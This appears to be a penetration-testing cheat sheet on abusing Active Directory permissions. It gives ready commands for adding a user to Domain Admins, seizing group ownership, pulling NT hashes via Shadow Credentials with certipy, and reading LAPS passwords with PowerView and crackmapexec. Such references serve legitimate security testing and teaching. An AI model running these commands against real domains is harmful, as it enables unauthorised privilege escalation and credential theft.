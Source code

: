 #### Abusing Add self/AddMember  on Group
This gives the ability to be added in a specific group
```
ldeep ldap -u pentestuser -p 'myPassWord' -d my.domain.com -s ldap://10.X.X.X add_to_group "CCN=pentestuser,OU=...,DC=..." "CN=Work Station,OU=..."
```
#### Abusing WriteOwner on Group
With writeOwner privilege, it is possible to change the owner of a specific group to own it. Assuming the privilege is granted over the group named "ACCOUNTING":
```
owneredit.py -action read -target 'ACCOUNTING' -hashes ':aaaaaaaaaabbbbbbbbbbbcccccddddeeecfe' my.domain.com/pentestuser

owneredit.py -action write -new-owner 'pentestuser' -target 'ACCOUNTING' -hashes ':aaaaaaaaaabbbbbbbbbbbcccccddddeeecfe' sevenkingdoms.local/tyron.lannister
```
As owner of the group, it is possbile change the acl and give GenericAll (FullControl) on the group with `dacledit.py`.

#### Abusing Generic all on user
This privilege grants an attacker full control over a target user account. This allows the attacker to change the target's password or to perform targeted kerberoasting attack.

#### Abusing Generic all on group
This privilege allows an attacker to manipulate group memberships. This can be done via direct commands or using modules like Active Directory or PowerSploit. 
```
net group "Domain Admins" pentestuser /add /domain
Add-ADGroupMember -Identity "Domain Admins" -Members pentestuser
Add-NetGroupUser -UserName pentestuser -GroupName "Domain Admins" -Domain "my.domain.com"
```

#### Abusing GenericAll / GenericWrite / Write on computer/user
Holding these privileges on a computer object or a user account allows to take over a computer object via Kerberos Resource-based Constrained Delegation (RBCD) or to impersonate a computer or user account via Shadow Credentials:
- **Kerberos Resource-based Constrained Delegation**
Resource-Based Constrained Delegation (RBCD) is a feature that allows to configure which accounts are trusted to delegate on their behalf. This is done by modifying **msDS-AllowedToActOnBehalfOfOtherIdentity** attribute of the target Active Direcory object.

- **Shadow Credentials**
Shadow Credentials allows the moification of **msDS-KeyCredentialLink** property for user/computer, in order to retrieve the NT hash of that object.
This can be performed with `certipy` tool. In the following example, it will be matter of retrieving 'MACHINEACCOUNT$' computer account hash assuming pentestuser's user account hash GenericWrite privilege over MACHINEACCOUNT.my.domain.com. 
```
certipy shadow auto -u pentestuser@my.domain.com -p 'myPassW0rd' -account 'MACHINEACCOUNT$'
```

#### Reading Laps password
This can be checked with PowerView or crackmapexec
- PowerView
```
Get-DomainComputer | where-Object {$_.'ms-mcs-admpwd'} | select dnshostname, ms-mcs-admpwd | ft
```
- crackmapexec
```
crackmapexec ldap computers.txt -d my.domain.com -u pentestuser -k -M laps
```
